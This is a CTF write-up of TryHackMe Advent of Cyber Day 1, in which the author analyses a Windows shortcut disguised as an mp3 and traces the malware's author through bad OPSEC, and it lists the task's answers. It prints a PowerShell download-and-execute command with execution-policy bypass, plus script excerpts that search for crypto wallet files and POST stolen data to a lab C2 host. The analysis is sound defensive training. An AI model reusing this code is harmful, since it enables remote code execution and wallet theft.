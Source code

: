 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2024-12-01-THM-Advent-Day-1
tags:
- Basic
- MerryChristmas
- THM
title: THM - Advent of Cyber - Day 1
---
```

This CTF is done mainly with following the instructions in the task. 

![alt text](image-1_1.png)

## Objectives :


    Learn how to investigate malicious link files.
    Learn about OPSEC and OPSEC mistakes.
    Understand how to track and attribute digital identities in cyber investigations.

Let's begin by starting the machine and scanning for the open ports:

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-23 07:14 GMT
Nmap scan report for tryhackme.machine
Host is up (0.00060s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds

```

Looks like we have SSH and 2 HTTP ports ports open. Following the instructions let's begin to investigate the website of the host.

![alt text](image.png)

We landed this kind of page which is a YouTube converter. Let's try to convert a random video with it.

![alt text](image-1.png)

We ended up getting an archive called ````download.zip```` these files might contain some information.

````
root@tryhackmeuser:~/Desktop# file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 
07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
````
````
root@tryhackmeuser:~/Desktop# file song.mp3
song.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
````

File recognized ````song.mp3```` to be a genuine mp3-file but ```somg.mp3``` is a Windows shortcut file which is a ``` .lnk ``` file.

Now let´s use some other forensics tools like ExifTool to extract more information about it.

```` 
root@tryhackmeuser:~/Desktop# exiftool somg.mp3
ExifTool Version Number         : 11.88
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.1 kB
File Modification Date/Time     : 2024:10:30 14:32:52+00:00
File Access Date/Time           : 2024:12:23 07:27:32+00:00
File Inode Change Date/Time     : 2024:12:23 07:26:18+00:00
File Permissions                : rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 08:14:14+01:00
Access Date                     : 2018:09:15 08:14:14+01:00
Modify Date                     : 2018:09:15 08:14:14+01:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
````
It contains an PowerShell command which downloads a script from github repo and the author of the script is visible. Bad OPSEC. Let's download the script and see what it contains.

````
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}
````

Downloaded script seems to be having some malicious code for searching cryptocurrency wallets in Windows environment. As mentioned earlier the author of script is visible, we can now investigate further via visiting this repository.

![alt](image-3.png)

Visiting the repository, there are few issues which are containing this string ````"Created by the one and only M.M."````

![alt text](image-4.png)

Especially this comment draws attention the author is saying that PowerShell is the language mainly preferred. Now looking at the profile i landed on the configuration page of this account and it contained information example full declaration of this abbreviation. ````M.M```` is called ````Mayor Malware````

So the lesson here was that this is a classic case of a bad OPSEC = Operational Security. The whole downloading process was done via the link to this author's own github repository which is not a good way to hide yourself. Also the script contained strings and sentences which are also used in the public repository. 

By using tool called Strings we can extract some information of the ````song.mp3```` file. This contained the author of the song.

````
TAGMount HackIt
Tyler Ramsbey
2024
````


In the script you can see one of the answers, which C2 server this script will send the acquired data.

````
# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}
````




<h3>Answer the questions below</h3>

Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 

````Tyler Ramsbey````

The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

````http://papash3ll.thm/data````

Who is M.M? Maybe his Github profile page would provide clues?

````Mayor Malware````

What is the number of commits on the GitHub repo where the issue was raised?

````1````











